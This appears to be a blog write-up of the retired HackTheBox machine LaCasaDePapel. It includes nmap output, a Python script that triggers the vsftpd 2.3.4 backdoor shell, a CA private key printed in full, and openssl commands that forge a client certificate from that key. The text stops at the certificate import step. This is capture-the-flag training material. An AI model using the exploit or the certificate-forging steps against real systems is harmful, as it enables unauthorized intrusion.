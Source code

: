 ```yaml
---
layout: post
title: "HTB - LaCasaDePapel"
author: "mrs3c"
categories: Blog
tags: [hackthebox, htb, pen-testing, certificates, cronjob, nodejs, openssl, otp, php, psysh, ssh rsa auth, ssh, vsftpd]
image: lacasa_logo.png
---
```


To fill in later

# HTB retired machines - LaCasaDePapel

## Video

[![LaCasaDePapel video](https://mrjak3.github.io/assets/img/lacasa_logo.png)](https://www.youtube.com/watch?v=OSRCEOQQJ4E)


## Summary

Fill out later

## 1. discovery - network service scanning - nmap

```python
# Nmap 7.80 scan initiated Sun Dec  8 21:59:21 2019 as: nmap -sC -sV -Pn -oA nmap/lacasadepapel 10.10.10.131
Nmap scan report for 10.10.10.131
Host is up (0.42s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.3.4
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
| ssh-hostkey:
|   2048 03:e1:c2:c9:79:1c:a6:6b:51:34:8d:7a:c3:c7:c8:50 (RSA)
|   256 41:e4:95:a3:39:0b:25:f9:da:de:be:6a:dc:59:48:6d (ECDSA)
|_  256 30:0b:c6:66:2b:8f:5e:4f:26:28:75:0e:f5:b1:71:e4 (ED25519)
80/tcp  open  http     Node.js (Express middleware)
|_http-title: La Casa De Papel
443/tcp open  ssl/http Node.js Express framework
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-title: La Casa De Papel
| ssl-cert: Subject: commonName=lacasadepapel.htb/organizationName=La Casa De Papel
| Not valid before: 2019-01-27T08:35:30
|_Not valid after:  2029-01-24T08:35:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|   http/1.1
|_  http/1.0
Service Info: OS: Unix
```

## 2. discovery - files and directories - http

 ### 2.1 Navigating to port 80 we find a page which needs an OTP supplied by a QRCode. The page asks us to install Google Authenticator

![discovery_http](https://mrjak3.github.io/assets/img/htb-lacasadepapel-2_http.png)

 ### 2.2 Scanning the code using Google Authenticator on an Android phone gives us a code but it refuses to work either way. So, maybe its for internal users only. Lets keep this aside and come back later.

## 3. discovery - files and directories - https

### 3.1 Browsing to HTTPS shows us an error that we need a client certificate to continue which we don't possess at the moment

![discovery_https](https://mrjak3.github.io/assets/img/htb-lacasadepapel-3_https.png)

## 4. initial access - exploit public facing application - vsftp

### 4.1 As seen from nmap, vsftp is version 2.3.4. A quick search allows the attacker to discover that the version was backdoored. Lets try to replicate the exploit code.

### 4.2 The code just tries a failed login, which triggers the backdoor on port 6200 and then executes commands from it. Lets do that using a small python script:

```python
import socket
import os
import time

def exploit(ip, port):
    sock = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip, port))

    sock.send('USER :)\n')
    sock.send('PASS HTBPASS\n')
    time.sleep(2)
    sock.close()

    os.system("rlwrap nc 10.10.10.131 6200 -v")

exploit("10.10.10.131", 21)
```

### 4.3 The code is pretty simple, it just creates a connection to the FTP port, sends in commands and then quiclky connects to the backdoored port at 6200.

### 4.4 Running the script:

 ![exploit_vsftp](https://mrjak3.github.io/assets/img/htb-lacasadepapel-4.4_vsftp.png)

## 5. Psy shell

### 5.1 Lets try executing system commands using the `cmd` operator

### 5.2 We find that shell_exec is disabled which prevents us from executing system commands. However, we can still list directories and read files using `scandir()` and `file_get_contents()`

![5.2.1](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.2.1.png)
![5.2.2](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.2.2.png)

### 5.3 We already know that we need a client certificate to access the service on HTTPS. In order to create one we need the CA certificate. Let's find it.

### 5.4 Looking at the home folders of the users we see five users.

![5.4](https://mrjak3.github.io/assets/img/htb-lacasadepapel-5.4.png)

### 5.5 Let's inspect each one of them. After some enumeration we see `ca.key` in ``/home/nairobi`

## 6.0 Private key CA certificates

### 6.1 Lets read its contents and copy it into a file

```
echo file_get_contents("/home/nairobi/ca.key")

-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb
7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/
2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl
uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M
YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp
s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us
PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V
Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89
1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ
/CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+
q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr
uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd
I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og
7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE
G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn
sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH
CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y
sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI
ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2
zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/
ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC
9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M
WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM
7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR
aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc
53udBEzjt3WPqYGkkDknVhjD
-----END PRIVATE KEY-----```

## 7.0 Creating client certificate

### 7.1 Now that we have the CA certificate let's create a client certificate for ourselves. To create it first download the server certificate.

#### 7.1.1 Navigate to https://10.10.10.13
#### 7.1.2 then click on the lock icon on the URL bar.
#### 7.1.3 Then "Connection > More Information > View Certificate. Then in the popup window click on Details > Export"
#### 7.1.4 Export and save to folder

### 7.2 Then follow these steps to create the certificate:

#### 7.2.1 `openssl genrsa -out client.key 4096`
#### 7.2.2 `openssl req -new -key client.key -out client.req`
#### 7.2.3 `openssl x509 -req -in client.req -CA lacasadepapelhtb.crt -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer`
#### 7.2.4 `openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12 rm client.key client.req client.cer`

### 7.3 Now upload the client.p12 to the browser's store. In Firefox, go to Preferences > Privacy & Security > View Certificates. Then in the Your Certificates section click on Import and import the cert.

![7.3](https://mrjak3.github.io/assets/img/htb-lacasadepapel_7.3.png)
